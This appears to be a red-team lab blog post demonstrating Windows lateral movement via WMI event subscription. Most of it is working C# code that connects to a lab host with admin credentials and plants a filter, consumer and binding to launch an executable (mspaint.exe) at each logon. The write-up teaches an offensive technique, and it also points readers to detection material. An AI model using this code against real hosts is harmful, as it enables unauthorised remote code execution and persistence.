 ```yaml
---
layout: post
title: "2024-06-18-lateral movement via wmi events"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-via-wmi-events/
---
```


# Lateral Movement via WMI Event Subscription

This is a quick lab to familiariaze with a lateral movement technique using WMI events, as described in [@domchell](https://twitter.com/domchell) aricle [I Like to Move It: Windows Lateral Movement Part 1 – WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - go check it out for more details, including detection ideas.

See my other lab related to persistence using WMI events:

{% content-ref url="../persistence/t1084-abusing-windows-managent-instrumentation/" %}
[t1084-abusing-windows-managent-instrumentation](../persistence/t1084-abusing-windows-managent-instrumentation/)
{% endcontent-ref %}

## Walkthrough

The below C# code for WMI events based lateral movement does a couple of things:

| Line                              | Action                                                                                                                                                                                                                                                                             |
| --------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 29 - 33                           | Connects to the remote endpoint `192.168.56.105` using local admin credentials `spotless:123456`                                                                                                                                                                                   |
| 33 - 46                           | <p>Creates a new WMI filter <code>evilSpotlessFilter</code> on <code>192.168.56.105</code>. <br>It will get triggered when a new logon session is created on <code>192.168.56.105</code></p>                                                                                       |
| 49 - 52                           | <p>Creates a WMI consumer <code>evilSpotlessConsumer</code> on <code>192.168.56.105</code>. <br>This consumer executes <code>mspaint.exe</code> on <code>192.168.56.105</code>, when the filter <code>evilSpotlessFilter</code> is triggered (upon new logon session creation)</p> |
| 55 - 58                           | WMI filter `evilSpotlessFilter` and WMI consumer `evilSpotlessConsumer` are bound. In layman's terms, the system `192.168.56.105` is instructed to **DEFINITELY** fire `mspaint.exe` on each new logon session that is created on the system.                                      |

```csharp
// code completely stolen from @domchell article 
// https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
// slightly modified to accommodate this lab

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management;

namespace wmisubscription_lateralmovement
{
    class Program
    {
        static void Main(string[] args)
        {

            // Connect to remote endpoint for WMI management
            string NAMESPACE = @"\\192.168.56.105\root\subscription";

            ConnectionOptions cOption = new ConnectionOptions();
            ManagementScope scope = null;
            scope = new ManagementScope(NAMESPACE, cOption);
            
            scope.Options.Username = "spotless";
            scope.Options.Password = "123456";
            scope.Options.Authority = string.Format("ntlmdomain:{0}", ".");
            
            scope.Options.EnablePrivileges = true;
            scope.Options.Authentication = AuthenticationLevel.PacketPrivacy;
            scope.Options.Impersonation = ImpersonationLevel.Impersonate;
            scope.Connect();

            // Create WMI event filter
            ManagementClass wmiEventFilter = new ManagementClass(scope, new ManagementPath("__EventFilter"), null);

            string query = "SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'";
            WqlEventQuery myEventQuery = new WqlEventQuery(query);

            ManagementObject myEventFilter = wmiEventFilter.CreateInstance();
            myEventFilter["Name"] = "evilSpotlessFilter";
            myEventFilter["Query"] = myEventQuery.QueryString;
            myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
            myEventFilter["EventNameSpace"] = @"root\cimv2";
            myEventFilter.Put();

            // Create WMI event consumer
            ManagementObject myEventConsumer = new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"), null).CreateInstance();
            myEventConsumer["Name"] = "evilSpotlessConsumer";
            myEventConsumer["ExecutablePath"] = "mspaint.exe";
            myEventConsumer.Put();

            // Bind filter and consumer
            ManagementObject  myBinder = new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"), null).CreateInstance();
            myBinder["Filter"] = myEventFilter.Path.RelativePath;
            myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
            myBinder.Put();

            // Cleanup
            // myEventFilter.Delete();
            // myEventConsumer.Delete();
            // myBinder.Delete();

        }
    }
}
```

## Observations

Once `connect` method is called, a couple of connections from the attacking machine (top right) are initiated to the target machine `192.168.56.105` (bottom right) over port TCP 135 (traffic receiver is svchost.exe as it's hosting the RPC service through which we are communicating):

![](<../../.gitbook/assets/image (655).png>)

After the code has executed, it will have created the WMI event filters, consumers and bind them on the target host `192.168.56.105`.

On the target host, we can check if the said filters and consumers were created like so:

```csharp
# view wmi filters
Get-WmiObject -Class __EventFilter -Namespace root\subscription

# view wmi consumers
Get-WmiObject -Class __EventConsumer -Namespace root\subscription

# view bindings
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```

Below shows output of the `evilSpotlessFilter` WMI filter we created on the target system:

![](<../../.gitbook/assets/image (656).png>)

## Demo

Below shows the WMI events based lateral movement technique in action:

* On the left, we compile and run the code that creates WMI event filters, consumers and binds them together
* In the top right corner - ther is a ProcMon that is set to capture when a new `mspaint.exe` process starts. In our case, it should start once there is a new logon session created on the system (remember, because of the `evilSpotlessFilter`)
* In the bottom right corner there is a powershell console initiating a new logon session with `runas.exe`. Once the authentication succeeds, a new logon session is created, cmd.exe is spawned and the WMI event filter `evilSpotlessFilter` is triggered and WMI event consumer `evilSpotlessConsumer` kicks off the `mspaint.exe`:

![](../../.gitbook/assets/wmi-events-lateralmovement.gif)

## References

{% embed url="https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/wmisdk/commandlineeventconsumer" %}

@spotheplanet
